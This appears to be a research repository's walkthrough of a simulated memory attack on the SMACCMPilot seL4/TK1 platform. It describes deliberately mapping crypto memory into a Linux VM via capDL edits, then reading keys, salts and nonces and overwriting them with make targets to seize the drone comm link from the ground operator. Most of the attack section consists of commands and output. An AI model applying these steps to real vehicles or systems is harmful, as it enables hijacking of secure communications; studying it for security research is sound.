 # Memory attack on Linux Virtual Machine

This attack exploits a memory vulnerability to read and overwrite the communication crypto keys.
That way the attacker gains access to commlink, while denying access to the legitimate GCS operator.
These notes describe how the attack is constructed.

## Modifying the VM


The goal of the attack is to overwrite the nonce and salt for the encryption and decryption functions. These are stored in memory outside of the VM. To simulate a successful attack on a system that has a VM security vulnerability, we will first intentionally map this memory into the VM so that it can be read and modified. 
We accomplish this by mapping the relevant pages of memory into the memory space of the VM. First we modify the VM to
tell it that we are inserting two extra pages to be loaded at a
specific memory address (we picked `0xd000000` somewhat arbitrarily).
To do this, run `make menuconfig` and select the option `Use hacked VM
configuration` under the smaccmpilot-tk1 application. Then recompile
the TK1 image.


## Modifying the capDL file

First we need to locate the memory where encryption information is
stored. The relevant data is in `build/arm/tk1/smaccmpilot-tk1` in the
binaries:

  - `Decrypt_inst_group_bin`
  - `Encrypt_inst_group_bin`

We start by looking at the memory for the decoder:
```
arm-none-eabi-objdump -x Decrypt_inst_group_bin
```

The crypto information is stored in the C variable
`ctx_dl_global_gec_sym_key_dec` which we can locate in the symbol
table from objdump:

```
00134478 l     O .bss	00001128 ctx_dl_global_gec_sym_key_dec
```

This means the variable will be at the virtual memory address
`0x00134478`. That means it's at offset `0x478` in page `0x134`. But,
this variable points to a rather large structure and it turns out the
information we want will actually spill on to the next page. So we
want to map page `0x135` into the VM memory space.

To do this we modify the `smaccmpilot.cdl` file located in the same
directory as the binaries. Here we find the page table for
`Decrypt_inst_group_bin`:

```
Decrypt_inst_group_bin_pd {
0x0: pt_Decrypt_inst_group_bin_0000
0x1: pt_Decrypt_inst_group_bin_0003
}
```

Each page table represents 2mb so the page table at 0x0 has entries
for addresses in the 0x00000000 - 0x02000000 range which covers the
address we are interested in (0x01350000). In particular, we want to
find the frame mapped at `0x135` in that page table:

```
pt_Decrypt_inst_group_bin_0000 {
...
0x135: frame_Decrypt_inst_group_bin_0065 (RWX)
...
}
```

First we need to mark this page as uncached since the Linux VM treats
it as uncached. We do this by adding the `uncached` attribute:

```
pt_Decrypt_inst_group_bin_0000 {
...
0x135: frame_Decrypt_inst_group_bin_0065 (RWX, uncached)
...
}
```

Then, we need to insert this frame into the cnode for the vm. We need
to leave one empty cnode and then place it in the next available slot:

```
Virtual_Machine_inst.vm_obj_cnode {
...
0x2a: Virtual_Machine_inst.vm_obj_irq_63
0x2b: Virtual_Machine_inst.vm_obj_irq_122
0x2d: frame_Decrypt_inst_group_bin_0065 (RWX)
...
}
```

We now repeat this process for Encrypt_inst_group_bin:

```
arm-none-eabi-objdump -x Encrypt_inst_group_bin
```

The relevant variable is `ctx_dl_global_gec_sym_key_enc` which we can
find in the symbol table:

```
00136548 l     O .bss	00001128 ctx_dl_global_gec_sym_key_enc
```

The virtual memory address is `0x00136548` which is page `0x136` with
offset `0x548`. Again the information we actually want will spill onto
the next page at `0x137`. Looking at the page table:

```
Encrypt_inst_group_bin_pd {
0x0: pt_Encrypt_inst_group_bin_0000
0x1: pt_Encrypt_inst_group_bin_0003
}
```

We see that we want offset `0x137` in `pt_Encrypt_inst_group_bin_0000` which is:

```
pt_Encrypt_inst_group_bin_0000 {
...
0x137: frame_Encrypt_inst_group_bin_0289 (RWX)
...
}
```

First we mark this as `uncached`:

```
pt_Encrypt_inst_group_bin_0000 {
...
0x137: frame_Encrypt_inst_group_bin_0289 (RWX, uncached)
...
}
```

We then add this to the VM's cnode:

```
Virtual_Machine_inst.vm_obj_cnode {
...
0x2a: Virtual_Machine_inst.vm_obj_irq_63
0x2b: Virtual_Machine_inst.vm_obj_irq_122
0x2d: frame_Decrypt_inst_group_bin_0065 (RWX)
0x2e: frame_Encrypt_inst_group_bin_0289 (RWX)
...
}
```

Now recompile and ensure that the cdl file is not overwritten by the
build process.


## Finding the key, salt, and nonce in the VM

Now we can boot the TK1 and try to locate the key, salt, and nonce for
both the decrypt and encrypt components. Within the VM, the pages we
mapped in are available at the memory range 0xd0000000 - 0xd002000.
Data 61 has provided the rw_mem.c tool in this repository which we can
use to read and modify memory.

First we can locate the keys since we know exactly what they are. To
read the memory we mapped in, do:

```
make read
```

And searching for the keys finds

```
0xd00004c0: 0xfe 0x45 0x2e 0x54 0x20 0xbf 0xb4 0x21 0x18 0x17 0x16 0x15 0x14 0x13 0x12 0x11 
0xd00004d0: 0x10 0x0f 0x0e 0x0d 0x0c 0x0b 0x0a 0x09 0x32 0x70 0x17 0xeb 0x26 0x63 0x05 0xfa
...
0xd0001590: 0x59 0x71 0x2b 0xaf 0xcf 0xf2 0xab 0x24 0x01 0x02 0x03 0x04 0x05 0x06 0x07 0x08 
0xd00015a0: 0x09 0x0a 0x0b 0x0c 0x0d 0x0e 0x0f 0x10 0xab 0x74 0xc9 0xd3 0xae 0x72 0xce 0xdb 
```

Thus the keys are at 0xd00004c8 and 0xd0001598. A make target is
available to read these keys:

```
root@tk1:~/vm_hack# make read-keys
./rw_mem -a 0xd00004c8 -s 16
0xd00004c8: 0x18 0x17 0x16 0x15 0x14 0x13 0x12 0x11 0x10 0x0f 0x0e 0x0d 0x0c 0x0b 0x0a 0x09 
./rw_mem -a 0xd0001598 -s 16
0xd0001598: 0x01 0x02 0x03 0x04 0x05 0x06 0x07 0x08 0x09 0x0a 0x0b 0x0c 0x0d 0x0e 0x0f 0x10 
```

We can also find the salts by searching for them directly:

```
0xd0000580: 0x00 0x00 0x00 0x00 0x50 0x00 0x00 0x00 0x50 0x00 0x00 0x00 0x08 0x07 0x06 0x05 
0xd0000590: 0x04 0x03 0x02 0x01 0x00 0x00 0x00 0x00 0x00 0x79 0x0c 0x00 0x00 0x00 0x00 0x00 
...
0xd0001650: 0x00 0x00 0x00 0x00 0x50 0x00 0x00 0x00 0x50 0x00 0x00 0x00 0x11 0x12 0x13 0x14 
0xd0001660: 0x15 0x16 0x17 0x18 0x00 0x00 0x00 0x00 0x79 0x0c 0x00 0x00 0x00 0x00 0x00 0x00
```

Thus the salts are at 0xd00058c and 0xd000165c. A make target is
available to read these salts:

```
root@tk1:~/vm_hack# make read-salts
./rw_mem -a 0xd000058c -s 8
0xd000058c: 0x08 0x07 0x06 0x05 0x04 0x03 0x02 0x01 
./rw_mem -a 0xd000165c -s 8
0xd000165c: 0x11 0x12 0x13 0x14 0x15 0x16 0x17 0x18 
```

Finding the nonces is tricker because they are initially all zero so
we can't just search for them. Instead we save the results of `make
read` over several requests to the odroid and diff the resulting files
to find the nonce. After doing 4758 requests we can find the nonces here:


```
0xd0000590: 0x04 0x03 0x02 0x01 0x00 0x00 0x00 0x00 0x00 0x96 0x12 0x00 0x00 0x00 0x00 0x00 
0xd00005a0: 0x00 0x00 0x12 0x95 0x07 0x14 0xa5 0x56 0x62 0x19 0x88 0x89 0x37 0xbe 0x64 0xaf
...
0xd0001660: 0x15 0x16 0x17 0x18 0x00 0x00 0x00 0x00 0x96 0x12 0x00 0x00 0x00 0x00 0x00 0x00 
0xd0001670: 0x00 0x00 0x00 0x00 0x01 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 
```

The nonce is a uint64 stored in little endian format. The nonces are
at 0xd0000599 and 0xd0001668. A make target is available to read these
nonces:

```
root@tk1:~/vm_hack# make read-nonces
./rw_mem -a 0xd0000599 -s 8
0xd0000599: 0x96 0x12 0x00 0x00 0x00 0x00 0x00 0x00 
./rw_mem -a 0xd0001668 -s 8
0xd0001668: 0x96 0x12 0x00 0x00 0x00 0x00 0x00 0x00
```

Now the attack simply overwrites the salts with the attacker's salts
(all zeros) and resets the nonces to zero so that the attacker can
syncronize with the Odroid. A make target is available to do these
overwrites:

```
root@tk1:~/vm_hack# make hack
./rw_mem -a 0xd000058c -s 8 -w -h 0x00
./rw_mem -a 0xd000165c -s 8 -w -h 0x00
./rw_mem -a 0xd0000599 -s 8 -w -h 0x00
./rw_mem -a 0xd0001668 -s 8 -w -h 0x00
```
